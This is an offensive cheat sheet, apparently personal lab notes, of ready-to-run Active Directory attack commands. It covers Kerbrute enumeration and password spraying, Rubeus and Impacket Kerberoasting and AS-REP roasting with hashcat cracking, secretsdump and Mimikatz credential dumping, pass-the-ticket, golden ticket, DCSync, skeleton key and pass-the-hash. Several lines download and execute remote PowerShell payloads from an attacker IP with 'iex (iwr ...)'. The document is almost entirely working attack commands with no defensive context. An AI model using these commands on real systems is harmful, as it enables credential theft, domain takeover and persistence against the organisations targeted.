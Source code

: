 # KERBRUTE
## Path
~/hack/tools/kerbrute-1.0.3

## Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

## Enumeration
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

## Password Spray
./kerbrute_linux_amd64 passwordspray --dc controller.local -d controller.local ./wordlist.txt Password1

# RUBEUS

## Harvest TGT's from Host
Rubeus.exe harvest /interval:30 

## Password Spray
Rubeus.exe brute /password:Password1 /noticket

## Kerberoast
Rubeus.exe kerberoast
hashcat -m 13100 -a 0 hash.txt Pass.txt

## AS-REP Roasting -Pre-Auth Disabled
	* Rubeus.exe asreproast  - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes
	* Crack those Hashes w/ hashcat - 
		○ 1.) Transfer the hash from the target machine over to your attacker machine and put the hash into a txt file
		○ 2.) Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....
		○ 3.) hashcat -m 18200 hash.txt Pass.txt - crack those hashes! Rubeus AS-REP Roasting uses hashcat mode 18200
	

# IMPACKET

## KERBEROAST
Kerberoast - EXECUTED REMOTELY FROM KALI, ENUMRATES AND REQUESTS ALL KERBEROASTABLE ACCOUNTS
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.105.214 -request

## AS-REP Roasting
GetNPUsers.py
GetNPUsers.py <DOMAIN NAME>/ -no-pass -usersfile usernames.txt

## Dump Secrets
secretsdump.py thm-ad/backup:'backup2517860'@thm-ad

# MIMIKATZ

## Download and Dump Creds
iex (iwr http://10.9.80.37/Invoke-Mimikatz.ps1 -UseBasicParsing);Invoke-Mimikatz -DumpCreds

## Dump Hashes
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
hashcat -m 1000 <hash> rockyou.txt

## Export Tickets
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

## Pass the Ticket
 Invoke-Mimikatz -Command '"kerberos::ptt [0;59dfa]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi"'

## Golden Ticket Attack

	1. Execute mimikatz on DC as DA to get krbtgt hash
		a. Invoke-Mimikatz -Command '"lsadump::lsa /patch"' –Computername dcorp-dc 
	2. On any machine 
		a. Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:domain.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges. Using the DCSync option needs no code execution (no need to run Invoke-Mimikatz) on the target DC:

	1. Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
	2. Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500 /groups:512 /ptt"'

## Skeleton Key
Invoke-Mimikatz -Command '"misc::skeleton"'

# POWERVIEW

iex (iwr http://10.9.80.37/PowerView3.ps1 -UseBasicParsing)

# EVIL-WINRM

## PTH
evil-winrm -i thm-ad -u administrator -H 0e0363213e37b94221497260b0bcb4fc

# BLOODHOUND

iex (iwr http://10.9.80.37/SharpHound.ps1 -UseBasicParsing)
Invoke-BloodHound -CollectionMethod ALL
